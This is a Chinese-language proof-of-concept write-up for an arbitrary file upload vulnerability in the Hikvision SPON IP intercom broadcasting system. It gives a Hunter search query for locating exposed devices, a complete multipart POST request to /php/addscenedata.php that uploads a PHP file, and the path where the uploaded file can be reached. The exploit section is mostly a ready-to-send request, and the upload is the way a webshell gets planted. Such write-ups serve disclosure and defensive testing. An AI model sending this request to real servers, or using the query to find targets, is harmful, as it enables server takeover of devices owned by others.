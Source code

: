 # 海康威视SPON IP网络对讲广播系统addscenedata存在任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">Hikvision Intercom Broadcasting System是中国海康威视（Hikvision）公司的一个对讲广播系统。海康威视SPON IP网络对讲广播系统addscenedata存在任意文件上传漏洞，恶意攻击者可能会上传恶意的后门文件，使服务器失陷。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 海康威视SPON IP网络对讲广播系统

# 三、资产测绘
+ Hunter：`web.body="vendors/custom/html5.min.js"`
+ 特征

![1704857140903-8dadddb1-8d90-42a6-9179-3cd4dca00c8b.png](./img/0NNFrB2N2TFVw-Ep/1704857140903-8dadddb1-8d90-42a6-9179-3cd4dca00c8b-210262.png)

# 四、漏洞复现
```java
POST /php/addscenedata.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Connection: close
Content-Length: 218
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4LuoBRpTiVBo9cIQ
Accept-Encoding: gzip

------WebKitFormBoundary4LuoBRpTiVBo9cIQ
Content-Disposition: form-data; name="upload"; filename="tt.php"
Content-Type: text/plain

123
------WebKitFormBoundary4LuoBRpTiVBo9cIQ--
```

![1704857585745-e3b20507-4f5a-4331-a42b-b30b4fa09640.png](./img/0NNFrB2N2TFVw-Ep/1704857585745-e3b20507-4f5a-4331-a42b-b30b4fa09640-505659.png)

上传文件位置

```java
/images/scene/tt.php
```

![1704857616251-0aa885ce-2985-4d09-8ed3-a968ca4a8fac.png](./img/0NNFrB2N2TFVw-Ep/1704857616251-0aa885ce-2985-4d09-8ed3-a968ca4a8fac-207072.png)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fv7cprclagh53ls1>